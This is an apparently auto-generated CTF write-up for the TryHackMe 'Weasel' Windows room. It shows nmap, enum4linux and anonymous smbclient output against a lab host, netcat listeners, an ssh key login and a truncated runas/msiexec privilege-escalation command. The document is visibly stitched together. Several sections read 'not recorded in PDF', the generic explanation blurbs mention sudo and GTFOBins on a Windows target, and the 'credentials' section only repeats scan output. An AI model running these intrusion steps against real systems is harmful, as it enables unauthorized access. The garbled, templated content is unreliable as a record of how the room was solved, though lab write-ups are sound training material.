

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Windows |
| 難易度 | 記録なし |
| 攻撃対象 | 22/tcp   open  ssh, 135/tcp  open  msrpc, 139/tcp  open  netbios-ssn, 445/tcp  open  microsoft-ds?, 3389/tcp open  ms-wbt-server, 8888/tcp open  http |
| 主な侵入経路 | web, ssh attack path to foothold |
| 権限昇格経路 | Local misconfiguration or credential reuse to elevate privileges |

## 偵察

### 1. PortScan

---
## Rustscan

💡 なぜ有効か  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## 初期足がかり

### Not implemented (not recorded in PDF)


## Nmap
```bash
nmap -sV -sT -sC $ip
```

### 2. Local Shell

---

PDFメモから抽出した主要コマンドと要点を整理しています。必要に応じて後続で詳細追記してください。

### 実行コマンド（抽出）
```bash
Weiteup
What is the user.txt flag?
enum4linux -A $ip
enum4linux -A DEV-DATASCI-JUP
smbclient -L //$ip -N
smbclient //$ip/datasci-team -N
nc -lvnp 3333
bash -p
ssh -i rsa dev-datasci-lowpriv@$ip
What is the root.txt flag?
python -m http.server 8000
runas /user:dev-datasci-lowpriv “msiexec /i C:\Users\dev-datasci-lowpriv
nc -lvnp 443
```

### 抽出画像


*Caption: Screenshot captured during weasel attack workflow (step 1).*


*Caption: Screenshot captured during weasel attack workflow (step 2).*


*Caption: Screenshot captured during weasel attack workflow (step 3).*

### 抽出メモ（先頭120行）
```bash
Weasel
August 15, 2024 21:39

### Weiteup

https://notes.huskyhacks.dev/blog/thm-weasel-walkthrough
https://medium.com/@tommasogreco/tryhackme-weasel-walkthrough-10e0d8565a28

### What is the user.txt flag?

First, explore with beginner Nmap
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/work/thm/Weasel]
└─$ nmap -sV -sT -sC $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-15 01:21 JST
Nmap scan report for 10.10.189.93
Host is up (0.25s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey:
|   2048 2b:17:d8:8a:1e:8c:99:bc:5b:f5:3d:0a:5e:ff:5e:5e (RSA)
|   256 3c:c0:fd:b5:c1:57:ab:75:ac:81:10:ae:e2:98:12:0d (ECDSA)
|_  256 e9:f0:30:be:e6:cf:ef:fe:2d:14:21:a0:ac:45:7b:70 (ED25519)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-08-14T16:22:11+00:00; -4s from scanner time.
| rdp-ntlm-info:
|   Target_Name: DEV-DATASCI-JUP
|   NetBIOS_Domain_Name: DEV-DATASCI-JUP
|   NetBIOS_Computer_Name: DEV-DATASCI-JUP
|   DNS_Domain_Name: DEV-DATASCI-JUP
|   DNS_Computer_Name: DEV-DATASCI-JUP
|   Product_Version: 10.0.17763
|_  System_Time: 2024-08-14T16:22:02+00:00
| ssl-cert: Subject: commonName=DEV-DATASCI-JUP
| Not valid before: 2024-08-13T16:07:27
|_Not valid after:  2025-02-12T16:07:27
8888/tcp open  http          Tornado httpd 6.0.3
|_http-server-header: TornadoServer/6.0.3
| http-title: Jupyter Notebook
|_Requested resource was /login?next=%2Ftree%3F
| http-robots.txt: 1 disallowed entry
|_/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: -4s, deviation: 0s, median: -4s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2024-08-14T16:22:06
|_  start_date: N/A
Ports for Windows-related services were open.
For now, let's do some research around SMB.
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
enum4 doesn't produce any results
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/tools]
OneNote
1/6
└─$ enum4linux -A $ip
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Wed Aug 14 22:31:14 2024
=========================================( Target Information )=========================================
Target ........... 10.10.103.64
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
============================( Enumerating Workgroup/Domain on 10.10.103.64 )============================
[E] Can't find workgroup/domain
===================================( Session Check on 10.10.103.64 )===================================
[+] Server 10.10.103.64 allows sessions using username '', password ''
================================( Getting domain SID for 10.10.103.64 )================================
do_cmd: Could not initialise lsarpc. Error was NT_STATUS_ACCESS_DENIED
[+] Can't determine if host is part of domain or part of a workgroup
enum4linux complete on Wed Aug 14 22:31:28 2024
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/tools]
└─$ enum4linux -A DEV-DATASCI-JUP
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Wed Aug 14 22:34:16 2024
=========================================( Target Information )=========================================
Target ........... DEV-DATASCI-JUP
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
==========================( Enumerating Workgroup/Domain on DEV-DATASCI-JUP )==========================
[E] Can't find workgroup/domain
==================================( Session Check on DEV-DATASCI-JUP )==================================
[+] Server DEV-DATASCI-JUP allows sessions using username '', password ''
===============================( Getting domain SID for DEV-DATASCI-JUP )===============================
do_cmd: Could not initialise lsarpc. Error was NT_STATUS_ACCESS_DENIED
[+] Can't determine if host is part of domain or part of a workgroup
enum4linux complete on Wed Aug 14 22:34:30 2024
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/tools]
└─$ smbclient -L //$ip -N
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
datasci-team    Disk
IPC$            IPC       Remote IPC
OneNote
2/6
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.103.64 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/tools]
└─$ smbclient //$ip/datasci-team -N
Try "help" to get a list of possible commands.
smb: \> dir
.                                   D        0  Fri Aug 26 00:27:02 2022
..                                  D        0  Fri Aug 26 00:27:02 2022
.ipynb_checkpoints                 DA        0  Fri Aug 26 00:26:47 2022
Long-Tailed_Weasel_Range_-_CWHR_M157_[ds1940].csv      A      146  Fri Aug 26 00:26:46 2022
misc                               DA        0  Fri Aug 26 00:26:47 2022
MPE63-3_745-757.pdf                 A   414804  Fri Aug 26 00:26:46 2022
papers                             DA        0  Fri Aug 26 00:26:47 2022
pics                               DA        0  Fri Aug 26 00:26:47 2022
requirements.txt                    A       12  Fri Aug 26 00:26:46 2022
weasel.ipynb                        A     4308  Fri Aug 26 00:26:46 2022
```

### Not implemented (not recorded in PDF)


💡 なぜ有効か  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## 権限昇格

### 3.Privilege Escalation

---

Privilege elevation related commands extracted from PDF memo.

💡 なぜ有効か  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## 認証情報

```text
https://notes.huskyhacks.dev/blog/thm-weasel-walkthrough
https://medium.com/@tommasogreco/tryhackme-weasel-walkthrough-10e0d8565a28
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/work/thm/Weasel]
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
8888/tcp open  http          Tornado httpd 6.0.3
|_http-server-header: TornadoServer/6.0.3
|_Requested resource was /login?next=%2Ftree%3F
2026/02/27 18:48
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Wed Aug 14 22:31:14 2024
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
============================( Enumerating Workgroup/Domain on 10.10.103.64 )============================
[E] Can't find workgroup/domain
[+] Server 10.10.103.64 allows sessions using username '', password ''
```

## まとめ・学んだこと

### 4.Overview

---




## 参考文献

- nmap
- rustscan
- nc
- ssh
- find
- python
- GTFOBins
